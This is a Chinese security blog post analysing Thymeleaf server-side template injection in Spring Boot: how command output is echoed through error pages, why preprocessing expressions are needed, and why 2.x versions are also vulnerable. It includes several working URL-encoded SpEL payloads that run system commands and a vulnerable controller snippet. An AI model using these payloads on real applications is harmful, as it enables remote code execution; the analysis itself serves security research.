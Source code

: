 ```yaml
---
title: "对 Thymeleaf SSTI 的一点思考"
date: 2023-02-15T13:35:48+08:00
lastmod: 2023-02-15T13:35:48+08:00
draft: false
author: "X1r0z"

tags: ['ssti', 'thymeleaf']
categories: ['Java安全']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


尝试写点网上没有的东西

<!--more-->

## 基本原理

这个不多说了

[https://xz.aliyun.com/t/10514](https://xz.aliyun.com/t/10514)

[https://xz.aliyun.com/t/9826](https://xz.aliyun.com/t/9826)

[https://www.anquanke.com/post/id/254519](https://www.anquanke.com/post/id/254519)

[https://www.cnpanda.net/sec/1063.html](https://www.cnpanda.net/sec/1063.html)

## 回显原理

首先说明一下, 这种回显的本质其实是 throw 某个会包含表达式执行结果的异常, 而在低版本的 springboot (<= 2.2) 中, `server.error.include-message` 的默认值为 `always`, 这使得默认的 500 页面会显示异常信息

但是在高版本的 springboot (>= 2.3) 中, 上述选项的默认值变成了 `never`, 那么 500 页面就不会显示任何异常信息

所以这种回显形式还是会有一定的局限性

先来看常规的 payload, 无法回显

```
__$%7bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("whoami").getInputStream()).next()%7d__::
```

![image-20230215120652323](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202302151206407.png)

但是在 `::` 后面加上东西就能够回显了

```
__$%7bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("whoami").getInputStream()).next()%7d__::xx
```

![image-20230215120720598](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202302151207633.png)

其实这两种 payload 最终抛出的异常是不一样的, 调试的流程也会有所差别

下面具体分析一下, 环境为 springboot 2.2.0 + thymeleaf 3.0.11

首先是没有回显的 payload

![image-20230215121920679](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202302151219788.png)

经过了一次 preprocess 之后得到命令执行的结果, 然后再走一遍 parse 的流程

![image-20230215122018191](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202302151220297.png)

![image-20230215135135371](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202302151351487.png)

但是再次 parse 的时候返回的 expression 为 null, 所以最终会抛出 IllegalArgumentException 异常, 携带的异常信息只包含了我们输入的内容, 并没有命令的回显

而使用了回显 payload 之后, expression 的值会变成 FragmentExpression

![image-20230215122446741](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202302151224852.png)

之后返回到 renderFragment 方法, 往下会将表达式执行结果作为 templateName, 并提取出 `::` 后面的内容作为 selector

然后调用 `viewTemplateEngine.process()`

![image-20230215122723457](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202302151227564.png)

![image-20230215122906499](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202302151229609.png)

跟进 `resolveTemplate()`

![image-20230215123009149](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202302151230262.png)

templateResolver 负责在 classpath (prefix) 下依据 template (name) 和 suffix 寻找对应的模板文件

![image-20230215123204456](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202302151232569.png)

当然这里肯定是找不到的, 所以会抛出 TemplateInputException 异常, 但是这个异常会带出 tempate 名称并最终显示在 500 页面中, 因此达到了回显的效果

![image-20230215123049689](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202302151230787.png)

另外这里也解释了为什么以下这种可控点无法拿到回显的结果

```java
@Controller
public class IndexController {
    @GetMapping({"/"})
    public String index(@RequestParam String page) {
        return "welcome ::" + page;
    }
}
```

虽然能够通过预处理表达式提前执行命令, 但是 page 其实位于 selector 的位置, 根据上面的代码可以知道最终抛出 TemplateInputException 异常的时候携带的是 template, 也就是 `::` 前面的内容 , 并没有带出 selector, 所以最终 500 页面显示的只有 welcome

![image-20230215125528665](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202302151255698.png)

那为什么不往 `::` 后面加内容反而不会抛出 TemplateInputException? 即为什么原来的 payload 第二次 parse 的时候得到的 expression 会是 null, 而不是 FragmentExpression

一路跟进 parse 流程, 来到 `FragmentExpression#parseFragmentExpressionContent` 方法

![image-20230215124231718](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202302151242820.png)

![image-20230215123942908](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202302151239013.png)

先判断有没有 `::`, 然后将 `::` 左右分隔成两部分, 即 templateNameStr 和 fragmentSpecStr, 如果 fragmentSpecStr 为空则返回 null

这样一层一层往上, 最终得到的 expression 就会是 null, 导致提前抛出了 TemplateProcessingException, 无法拿到回显

## 预处理表达式

预处理表达式保证了表达式执行的最高优先级, 是否需要预处理表达式的关键在于 return 语句是否完全可控

看下面一个例子

```java
return page;
return "aa/" + page;
return "aa :: bb" + page;
```

如果是第一种完全可控的情况, 那么用不用预处理表达式都是无所谓的

如果是第二种或第三种情况, 使用不含预处理表达式的 payload 会执行失败

例如

```
aa$%7bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("calc").getInputStream()).next()%7d::xx

aa::bb$%7bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("calc").getInputStream()).next()%7d 
```

更改为预处理表达式的形式后, 执行成功

```
aa__$%7bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("whoami").getInputStream()).next()%7d__::xx

aa::bb__$%7bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("calc").getInputStream()).next()%7d__
```

原因在于第一组 payload 开头并不符合表达式的形式, parse 后的 templateName (或 fragmentSelector) 会变成 TextLiteralExpression, 而这个 expression 并不会走 spel 表达式解析的流程

![image-20230215131016896](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202302151310000.png)

如果删除了开头的 aa, 则 templateName (或 fragmentSelector) 会被解析成 VariableExpression, 该 expression 会被作为 spel 表达式执行

![image-20230215131348816](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202302151313926.png)

对于预处理表达式, thymeleaf 会将 `__${...}__` 中的内容用正则提取出来, 然后再 parse 一遍, 因为这个内容我们完全可控, 所以最终会返回 VariableExpression, 这个过程不会受到任何限制

![image-20230215131733856](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202302151317963.png)

## 2.x 版本

看到一些文章说 thymeleaf ssti 的原因在于片段表达式 `~{ }`, 这个特性是在 3.0 版本引入的, 所以 2.x 版本不存在 ssti

但实际上这种说法并不准确, 因为整个 ssti 的利用过程都与片段表达式没有任何关系, 其实 2.x 版本也能触发漏洞

下面以 springboot 1.4.1 + thymeleaf 2.1.5 为例

跟进 renderFragment 方法

![image-20230215132649275](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202302151326385.png)

这里调用的方法名与 3.x 版本有一点区别

跟进 computeStandardFragmentSpec 方法

![image-20230215132728075](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202302151327185.png)

![image-20230215132815896](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202302151328009.png)

同样存在 preprocess 方法来处理预处理表达式

![image-20230215132843519](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202302151328622.png)

parse 得到 VariableExpression, 然后调用 execute 执行表达式

对于不含预处理表达式的 payload, 同样能够执行, 只是位置不太一样

![image-20230215133112621](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202302151331731.png)

上文所述的回显原理以及预处理表达式的相关问题同样适用于 2.x 版本
